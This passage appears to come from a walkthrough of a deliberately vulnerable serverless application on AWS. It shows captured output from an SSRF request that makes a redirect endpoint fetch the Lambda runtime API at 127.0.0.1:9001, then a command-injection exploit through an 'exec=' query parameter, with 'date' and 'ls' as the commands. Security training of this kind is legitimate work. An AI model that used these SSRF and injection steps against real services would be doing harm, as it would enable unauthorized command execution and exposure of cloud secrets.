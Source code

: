 ```
    "output": "\"{\\\"resource\\\":\\\"/{proxy+}\\\",\\\"path\\\":\\\"/redirect\\\",\\\"httpMethod\\\":\\\"GET\\\",\\\"headers\\\":{\\\"Accept\\\":\\\"*/*\\\",\\\"Accept-Encoding\\\":\\\"gzip, deflate\\\",\\\"CloudFront-Forwarded-Proto\\\":\\\"https\\\",\\\"CloudFront-Is-Desktop-Viewer\\\":\\\"true\\\",\\\"CloudFront-Is-Mobile-Viewer\\\":\\\"false\\\",\\\"CloudFront-Is-SmartTV-Viewer\\\":\\\"false\\\",\\\"CloudFront-Is-Tablet-Viewer\\\":\\\"false\\\",\\\"CloudFront-Viewer-ASN\\\":\\\"17747\\\",\\\"CloudFront-Viewer-Country\\\":\\\"IN\\\",\\\"Host\\\":\\\"vscpen3dmf.execute-api.us-west-2.amazonaws.com\\\",\\\"User-Agent\\\":\\\"HTTPie/3.2.1\\\",\\\"Via\\\":\\\"1.1 07fc4bc5d694987fb9600fd890abcf0c.cloudfront.net (CloudFront)\\\",\\\"X-Amz-Cf-Id\\\":\\\"s-9O72IRA5bgt1yHjTZmXiirfC4muSTx08E25iYpVhUdzLxhvmaMhQ==\\\",\\\"X-Amzn-Trace-Id\\\":\\\"Root=1-632865cd-3a79cfd60eceb84419138d2a\\\",\\\"X-Forwarded-For\\\":\\\"1.1.1.1, 2.2.2.2\\\",\\\"X-Forwarded-Port\\\":\\\"443\\\",\\\"X-Forwarded-Proto\\\":\\\"https\\\"},\\\"multiValueHeaders\\\":{\\\"Accept\\\":[\\\"*/*\\\"],\\\"Accept-Encoding\\\":[\\\"gzip, deflate\\\"],\\\"CloudFront-Forwarded-Proto\\\":[\\\"https\\\"],\\\"CloudFront-Is-Desktop-Viewer\\\":[\\\"true\\\"],\\\"CloudFront-Is-Mobile-Viewer\\\":[\\\"false\\\"],\\\"CloudFront-Is-SmartTV-Viewer\\\":[\\\"false\\\"],\\\"CloudFront-Is-Tablet-Viewer\\\":[\\\"false\\\"],\\\"CloudFront-Viewer-ASN\\\":[\\\"17747\\\"],\\\"CloudFront-Viewer-Country\\\":[\\\"IN\\\"],\\\"Host\\\":[\\\"vscpen3dmf.execute-api.us-west-2.amazonaws.com\\\"],\\\"User-Agent\\\":[\\\"HTTPie/3.2.1\\\"],\\\"Via\\\":[\\\"1.1 07fc4bc5d694987fb9600fd890abcf0c.cloudfront.net (CloudFront)\\\"],\\\"X-Amz-Cf-Id\\\":[\\\"s-9O72IRA5bgt1yHjTZmXiirfC4muSTx08E25iYpVhUdzLxhvmaMhQ==\\\"],\\\"X-Amzn-Trace-Id\\\":[\\\"Root=1-632865cd-3a79cfd60eceb84419138d2a\\\"],\\\"X-Forwarded-For\\\":[\\\"1.1.1.1, 2.2.2.2\\\"],\\\"X-Forwarded-Port\\\":[\\\"443\\\"],\\\"X-Forwarded-Proto\\\":[\\\"https\\\"]},\\\"queryStringParameters\\\":{\\\"url\\\":\\\"http://127.0.0.1:9001/2018-06-01/runtime/invocation/next\\\"},\\\"multiValueQueryStringParameters\\\":{\\\"url\\\":[\\\"http://127.0.0.1:9001/2018-06-01/runtime/invocation/next\\\"]},\\\"pathParameters\\\":{\\\"proxy\\\":\\\"redirect\\\"},\\\"stageVariables\\\":null,\\\"requestContext\\\":{\\\"resourceId\\\":\\\"a11ui0\\\",\\\"resourcePath\\\":\\\"/{proxy+}\\\",\\\"httpMethod\\\":\\\"GET\\\",\\\"extendedRequestId\\\":\\\"YtTYJF4WPHcFXAw=\\\",\\\"requestTime\\\":\\\"19/Sep/2022:12:51:25 +0000\\\",\\\"path\\\":\\\"/dev/redirect\\\",\\\"accountId\\\":\\\"880096392120\\\",\\\"protocol\\\":\\\"HTTP/1.1\\\",\\\"stage\\\":\\\"dev\\\",\\\"domainPrefix\\\":\\\"vscpen3dmf\\\",\\\"requestTimeEpoch\\\":1663591885535,\\\"requestId\\\":\\\"a56bd6dc-0e13-48f1-bc9e-067912db6f7b\\\",\\\"identity\\\":{\\\"cognitoIdentityPoolId\\\":null,\\\"accountId\\\":null,\\\"cognitoIdentityId\\\":null,\\\"caller\\\":null,\\\"sourceIp\\\":\\\"1.1.1.1\\\",\\\"principalOrgId\\\":null,\\\"accessKey\\\":null,\\\"cognitoAuthenticationType\\\":null,\\\"cognitoAuthenticationProvider\\\":null,\\\"userArn\\\":null,\\\"userAgent\\\":\\\"HTTPie/3.2.1\\\",\\\"user\\\":null},\\\"domainName\\\":\\\"vscpen3dmf.execute-api.us-west-2.amazonaws.com\\\",\\\"apiId\\\":\\\"vscpen3dmf\\\"},\\\"body\\\":null,\\\"isBase64Encoded\\\":false}\""
}
```

- Step 9: You should see AWS related sensitive information.

    
- Step 10: To exploit command injection vulnerability:
	
    `http get https://<sls-endpoint>/dev/date?exec=date`

You will see an output like this	
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 44
Content-Type: application/json
Date: Mon, 19 Sep 2022 13:10:28 GMT
Via: 1.1 f52fa9ddf23e95c892a74419663288da.cloudfront.net (CloudFront)
X-Amz-Cf-Id: 4PI0jtMwyNYK39T7gRiYlKBWH_pxfzYPB07vzIocBt-zzNj85z4EGA==
X-Amz-Cf-Pop: DEL54-C2
X-Amzn-Trace-Id: Root=1-63286a44-5babe1f924314b7d2009a5c7;Sampled=0
X-Cache: Miss from cloudfront
x-amz-apigw-id: YtWKrHCRvHcF8Jw=
x-amzn-Remapped-Content-Length: 44
x-amzn-RequestId: 43b9dd4a-f64b-42e0-ad5e-222209fde183

{
    "output": "Mon Sep 19 13:10:28 UTC 2022\n"
}
```
- Step 11: change the request parameter to `exec=ls`:
